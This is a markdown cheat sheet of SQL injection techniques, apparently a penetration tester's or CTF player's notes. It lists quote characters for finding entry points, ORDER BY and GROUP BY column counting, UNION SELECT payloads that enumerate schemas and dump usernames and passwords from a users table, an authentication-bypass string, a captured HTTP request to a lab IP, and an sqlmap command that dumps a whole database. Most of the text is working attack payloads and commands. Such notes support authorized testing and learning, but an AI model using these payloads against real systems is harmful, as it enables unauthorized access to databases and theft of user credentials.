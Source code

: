 # SQL Injection

SQL injection is a web security vulnerability that allows an attacker to interfere with the queries that an application makes to its database. It generally allows an attacker to view data that they are not normally able to retrieve. This might include data belonging to other users, or any other data that the application itself is able to access. In many cases, an attacker can modify or delete this data, causing persistent changes to the application's content or behaviour.

## Entry Point

```console

'
"
`
')
")
`)
'))
"))
`))
```

Look for error messages

## Union based

When an application is vulnerable to SQL injection and the results of the query are returned within the application's responses, the UNION keyword can be used to retrieve data from other tables within the database. This results in an SQL injection UNION attack.

### Determing Number of Columns**

**Order by**
```
1' ORDER BY 1--+    #True
1' ORDER BY 2--+    #True
1' ORDER BY 3--+    #True
1' ORDER BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

**Group by**
```
1' GROUP BY 1--+    #True
1' GROUP BY 2--+    #True
1' GROUP BY 3--+    #True
1' GROUP BY 4--+    #False - Query is only using 3 columns
                        #-1' UNION SELECT 1,2,3--+    True
```

**Union SELECT**
```
0 union select 1,2,3,4 -- -

or

1' UNION SELECT null-- - Not working
1' UNION SELECT null,null-- - Not working
1' UNION SELECT null,null,null-- - Worke
```
### Extract database names, table names and column names

```
0 union select 1,group_concat(schema_name),3,4 from information_schema.schemata-- -
0 union select 1,group_concat(table_name),3,4 from information_schema.tables where table_schema='marketplace'-- -
0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='users'-- -
0 union select 1,group_concat(id,':',username,':',password,':',isAdministrator,'\n'),3,4 from marketplace.users-- -
0 union select group_concat(column_name,'\n'),2,3,4 from information_schema.columns where table_name='messages'-- -
```

## SQLi

payloads
```
' or 1=1 -- -
```

## Dump database MYSQL with SQLmap

Save a burpsuite request to .txt

```
POST /portal.php HTTP/1.1
Host: 10.10.108.153
User-Agent: Mozilla/5.0 (Windows NT 10.0; rv:91.0) Gecko/20100101 Firefox/91.0
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,image/webp,*/*;q=0.8
Accept-Language: en-US,en;q=0.5
Accept-Encoding: gzip, deflate
Content-Type: application/x-www-form-urlencoded
Content-Length: 15
Origin: http://10.10.108.153
DNT: 1
Connection: close
Referer: http://10.10.108.153/portal.php
Cookie: PHPSESSID=lt2o95mtbod8hm08plije1jk03
Upgrade-Insecure-Requests: 1

searchitem=burp
```

Dump database

```console
$ sqlmap -r request.txt --dbms=mysql --dump

-r use request.txt
--dbms type of db management
--dump output entire db
```

